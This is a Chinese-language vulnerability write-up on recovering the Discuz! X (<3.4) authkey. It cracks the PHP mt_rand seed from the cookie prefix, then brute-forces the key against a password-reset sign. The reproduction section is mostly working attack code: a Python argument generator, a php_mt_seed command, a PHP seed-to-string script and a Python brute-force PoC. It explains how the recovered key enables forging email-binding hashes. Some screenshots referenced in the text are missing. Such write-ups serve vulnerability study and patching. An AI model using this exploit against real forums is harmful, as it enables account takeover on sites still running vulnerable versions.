







# Discuz < 3.4 authkey 算法的安全性漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2871](https://www.zhihuifly.com/t/topic/2871)

# Discuz! X < 3.4 authkey 算法的安全性漏洞

## 一、漏洞简介

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…

## 二、漏洞影响

php>5.3+php-curl<=7.54

*   Discuz_X3.3_SC_GBK
*   Discuz_X3.3_SC_UTF8
*   Discuz_X3.3_TC_BIG5
*   Discuz_X3.3_TC_UTF8
*   Discuz_X3.2_SC_GBK
*   Discuz_X3.2_SC_UTF8
*   Discuz_X3.2_TC_BIG5
*   Discuz_X3.2_TC_UTF8
*   Discuz_X2.5_SC_GBK
*   Discuz_X2.5_SC_UTF8
*   Discuz_X2.5_TC_BIG5
*   Discuz_X2.5_TC_UTF8

## 三、复现过程

### 漏洞分析

在dz3.3/upload/install/index.php 346行



我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数



当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

```
$_config['cookie']['cookiepre'] = random(4).'_'; 
```

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符



> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php_mt_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

```
# coding=utf-8
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
sstr = "sW7c"
for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result 
```

得到参数,使用php_mt_seed脚本

https://github.com/ianxtianxt/php-mt_rand

```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt 
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

```
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');
while(!feof($fp)){
	$b = fgets($fp, 4096);
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2); 
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。



跟随make_getpws_sign函数进入`/source/function/function_member.php`



然后进入dsign函数，配合authkey生成结果


这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
> 
> 自行修改第7,8,13行代码

```
# coding=utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]
def main():
	sign = "af3b937d0132a06b"
	str_list = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	s_list = sorted(set(ranlist), key=ranlist.index)
	r_list = itertools.product(str_list, repeat=6)
	print "[!] start running...."
	s_time = time.time()
	for j in r_list:
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey
print main() 
```





## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85